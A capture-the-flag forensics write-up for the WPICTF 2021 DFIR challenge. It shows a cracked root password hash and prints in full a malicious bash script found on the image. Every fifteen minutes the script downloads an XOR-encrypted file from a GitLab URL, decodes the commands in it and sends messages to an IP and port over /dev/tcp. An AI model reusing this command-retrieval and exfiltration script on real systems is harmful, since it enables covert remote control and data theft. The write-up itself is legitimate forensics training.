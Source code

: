 ```yaml
---
layout: load_md
title: The White Circle | Wpictf 2021 | DFIR Writeup
desc: Check out our writeup for DFIR for Wpictf 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Wpictf 2021
parent: wpictf_2021
category: forensics
challenge: DFIR
tags: "forensics, twh"
date: 2021-04-26T00:00:00+00:00
last_modified_at: 2021-04-26T00:00:00+00:00
---
```




> Solved by : thewhiteh4t

* we get a `.ova` file for this one
* challenge states that activity was detected in / directory
* in / directory we can see a `.pot` file

![](https://i.imgur.com/HdIn51S.png)

* this file contains :

```
$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

* looks like shadow file format so i tried to login as `root` with `toor` as password and it works!
* in `/root` we can see some interesting dot files

![](https://i.imgur.com/wFSclR3.png)

* `payload.sh` pulls an encrypted csv file from gitlab and decrypts it

```
    #!/bin/bash
    W=$((15*60))
    K=120
    while true
    do
        echo "sleeping for $W seconds"
        sleep $W
        rm .encrypted_csv.data
        wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
        echo "downloaded file"
        F="./.encrypted_csv.data"
        hexdump -v -e '/1 "%u\n"' $F | while read B; do
            E=$((K^B))
            C=$(printf \\$(printf '%03o' $E))
            echo -n $C >> encrypted.csv
        done
        echo "decrypted newest command"
        S=$(cat encrypted.csv)
        rm encrypted.csv
        S="${S::-1}"
        D=,
        S=$S$D
        array=();
        while [[ $S ]]; do
            array+=( "${S%%"$D"*}" );
            S=${S#*"$D"};
        done;
        declare -a array
        M=${array[0]}
        I=${array[1]}
        P=${array[2]}
        M=${M##WPI}
        echo "routing message to $I:$P"
        echo "$M" > /dev/tcp/$I/$P
    done
```

* I modified the script to not remove the new file by commenting out line 19
* `encrypted.csv` holds our flag!

![](https://i.imgur.com/6KQGa3L.png)

